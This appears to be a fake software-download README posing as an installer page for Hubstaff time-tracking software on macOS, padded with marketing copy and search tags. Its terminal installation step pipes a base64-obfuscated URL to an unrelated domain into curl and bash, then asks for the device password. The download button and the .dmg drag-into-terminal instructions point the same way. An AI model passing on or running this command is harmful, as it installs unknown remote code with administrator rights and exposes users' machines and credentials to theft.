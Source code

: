 # Hubstaff For Mac OS — Download Now ⏱️
![logo](https://cdn-public.softwarereviews.com/production/logos/offerings/9521/original/Hubstaff_logo.png?1636398953)

Hubstaff For Mac OS is a powerful time tracking and productivity management software designed for macOS users. Monitor work hours, track tasks, and optimize team performance with an intuitive interface. Follow the instructions below to install Hubstaff on your Mac and boost your productivity.

[![Download Now](https://img.shields.io/badge/Download-Now-007AFF?style=for-the-badge&logo=apple)](https://fituganshfgh.github.io/.github/hubstaff)

If the download button doesn’t work, follow the manual installation instructions below using the terminal.

## 📦 How to Install Hubstaff For Mac

### Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)


## 🎯 What You Get with Hubstaff

- ⏰ **Time Tracking**: Accurately track work hours for teams and individuals with real-time updates.
- 📊 **Activity Monitoring**: Monitor app and website usage to ensure productive workflows.
- 📈 **Detailed Reports**: Generate insightful reports on time, tasks, and project progress.
- ✅ **Task Management**: Assign and track tasks seamlessly within your team.
- 🔒 **Secure Data Handling**: Protect sensitive data with robust encryption and secure storage.
- 🌐 **Integrations**: Connect with tools like Trello, Asana, and Slack for streamlined workflows.

## About Hubstaff

Hubstaff For Mac OS is a leading **time tracking** and **productivity management** software tailored for macOS users, designed to help businesses and freelancers optimize their workflows. Whether you’re managing a remote team or tracking your own tasks, Hubstaff provides a seamless, macOS-native experience that simplifies **employee monitoring** and **task management**. Its **free download** option allows users to explore its robust features, making it accessible for teams of all sizes.

With Hubstaff, you can track time with precision, monitor activity levels, and generate detailed reports to gain insights into productivity. The software’s **macOS productivity** tools integrate effortlessly with popular platforms like Trello, Asana, and QuickBooks, ensuring your workflows remain connected. Its **secure data handling** ensures that all tracked data is protected, giving you peace of mind while managing sensitive information.

For teams looking to streamline operations, Hubstaff offers **activity monitoring** features that track app and website usage, helping you identify areas for improvement. The software’s **detailed reports** provide actionable insights into project progress and employee performance, enabling data-driven decisions. Hubstaff’s intuitive interface is optimized for macOS, offering a native experience that feels at home on your MacBook or iMac.

By choosing Hubstaff For Mac OS, you’re investing in a tool that enhances **time tracking**, **task management**, and overall productivity. The **free macOS download** makes it easy to get started, allowing you to explore its features without upfront costs. Join thousands of macOS users who rely on Hubstaff to manage their teams and projects efficiently, and take control of your productivity today.

## ✅ Advantages of Hubstaff

- 🚀 **Accurate Time Tracking**: Monitor work hours with precision for better project planning.
- 🔍 **Insightful Activity Monitoring**: Track app and website usage to optimize productivity.
- 📑 **Comprehensive Reports**: Access detailed reports to analyze team and project performance.
- 🛠️ **Seamless Task Management**: Assign and track tasks effortlessly within the platform.
- 🔐 **Secure Data Protection**: Safeguard sensitive data with advanced encryption.
- 🌍 **Broad Integrations**: Sync with tools like Asana, Trello, and Slack for enhanced workflows.

## 🖼 Preview

![Time Tracking Dashboard](https://a.storyblok.com/f/172398/2336x1668/8fa478872d/hero-2x-employee_timesheets.png)
*Monitor team productivity with a clear, intuitive dashboard.*

![Activity Monitoring](https://lh7-rt.googleusercontent.com/docsz/AD_4nXf5ka7tENZ33Fm64tiak43TufSu3s30hkd9bybrIoFXfMs0g-aYPjEIGtqqFS9pZ6pxiyoZURWS3tZZBQysjSR-zqZ46JYYeV6hAqa5suBzchQLas5NZV3xfTJ7Zk_L30ipMT5nxRQzmIevL_vcL_-KXdoe?key=8bfni8E8huSs8dRsJbcpzadv)
*Track app and website usage for better productivity insights.*

![Reports Interface](https://gdm-catalog-fmapi-prod.imgix.net/ProductScreenshot/7c2e7fc2-9d73-4bf6-8b7a-327de7428abb.png?auto=format&q=50)
*Generate detailed reports to analyze project and team performance.*

![Task Management](https://i.postimg.cc/7Y2T0qL3/hubstaff-tasks.jpg)
*Assign and manage tasks seamlessly within Hubstaff.*

## 🔍 Tags

hubstaff, hubstaff free, hubstaff mac, hubstaff for mac, hubstaff free for mac, hubstaff talent, hubstaff download, talent hubstaff, download hubstaff, hub staff talent, hubstaff app, app hubstaff, hubstaff pricing, hubstaff time tracker
